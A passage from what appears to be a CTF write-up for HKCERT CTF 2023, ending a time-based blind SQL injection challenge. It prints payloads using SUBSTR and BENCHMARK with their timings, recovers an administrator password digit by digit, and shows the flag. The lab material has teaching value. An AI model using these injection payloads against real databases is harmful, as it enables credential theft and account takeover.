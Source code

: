 As you can see, some digits took a little longer to be executed.

> Note: Digit `0` always get executed. Also, the execution time gets progressively shorter, I have no clue why this is happening.

**Hence, we can determine which digits are correct.**

**In our case, the correct password is `0557192864287807`:**
```shell
[*] Payload: IF(SUBSTR(password,1,1)=0,BENCHMARK(100000,SHA1(1337)),0) | took 7.76973 seconds | digit: 0 | position: 1
[*] Payload: IF(SUBSTR(password,2,1)=5,BENCHMARK(100000,SHA1(1337)),0) | took 5.67535 seconds | digit: 5 | position: 2
[*] Payload: IF(SUBSTR(password,3,1)=5,BENCHMARK(100000,SHA1(1337)),0) | took 5.91817 seconds | digit: 5 | position: 3
[*] Payload: IF(SUBSTR(password,4,1)=7,BENCHMARK(100000,SHA1(1337)),0) | took 5.15217 seconds | digit: 7 | position: 4
[*] Payload: IF(SUBSTR(password,5,1)=1,BENCHMARK(100000,SHA1(1337)),0) | took 4.71980 seconds | digit: 1 | position: 5
[*] Payload: IF(SUBSTR(password,6,1)=9,BENCHMARK(100000,SHA1(1337)),0) | took 4.89355 seconds | digit: 9 | position: 6
[*] Payload: IF(SUBSTR(password,7,1)=2,BENCHMARK(100000,SHA1(1337)),0) | took 4.57795 seconds | digit: 2 | position: 7
[*] Payload: IF(SUBSTR(password,8,1)=8,BENCHMARK(100000,SHA1(1337)),0) | took 3.64779 seconds | digit: 8 | position: 8
[*] Payload: IF(SUBSTR(password,9,1)=6,BENCHMARK(100000,SHA1(1337)),0) | took 3.23760 seconds | digit: 6 | position: 9
[*] Payload: IF(SUBSTR(password,10,1)=4,BENCHMARK(100000,SHA1(1337)),0) | took 2.92061 seconds | digit: 4 | position: 10
[*] Payload: IF(SUBSTR(password,11,1)=2,BENCHMARK(100000,SHA1(1337)),0) | took 2.18108 seconds | digit: 2 | position: 11
[*] Payload: IF(SUBSTR(password,12,1)=8,BENCHMARK(100000,SHA1(1337)),0) | took 2.03635 seconds | digit: 8 | position: 12
[*] Payload: IF(SUBSTR(password,13,1)=7,BENCHMARK(100000,SHA1(1337)),0) | took 1.59135 seconds | digit: 7 | position: 13
[*] Payload: IF(SUBSTR(password,14,1)=8,BENCHMARK(100000,SHA1(1337)),0) | took 1.11044 seconds | digit: 8 | position: 14
[*] Payload: IF(SUBSTR(password,15,1)=0,BENCHMARK(100000,SHA1(1337)),0) | took 8.34426 seconds | digit: 0 | position: 15
[*] Payload: IF(SUBSTR(password,16,1)=7,BENCHMARK(100000,SHA1(1337)),0) | took 0.23968 seconds | digit: 7 | position: 16
```

**Finally, we can login to the `Administrator` account!**

![](https://raw.githubusercontent.com/siunam321/CTF-Writeups/main/HKCERT-CTF-2023/images/Pasted%20image%2020231113223007.png)

![](https://raw.githubusercontent.com/siunam321/CTF-Writeups/main/HKCERT-CTF-2023/images/Pasted%20image%2020231113223014.png)

**And read its secret note!**

![](https://raw.githubusercontent.com/siunam321/CTF-Writeups/main/HKCERT-CTF-2023/images/Pasted%20image%2020231113223036.png)

- **Flag: `hkcert23{17_15_n07_50_53cr37_4f73r_4ll}`**

## Conclusion

What we've learned:

1. Exploiting conditional time-based SQL injection & filter bypass